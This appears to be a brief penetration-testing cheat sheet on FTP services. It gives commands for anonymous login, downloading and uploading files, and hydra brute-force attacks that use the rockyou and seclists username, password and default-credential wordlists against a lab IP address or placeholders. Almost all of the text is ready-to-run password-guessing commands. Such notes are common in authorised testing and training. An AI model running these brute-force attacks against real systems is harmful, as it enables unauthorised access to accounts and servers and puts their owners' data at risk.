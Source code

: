 ___

### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.226.47 ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```


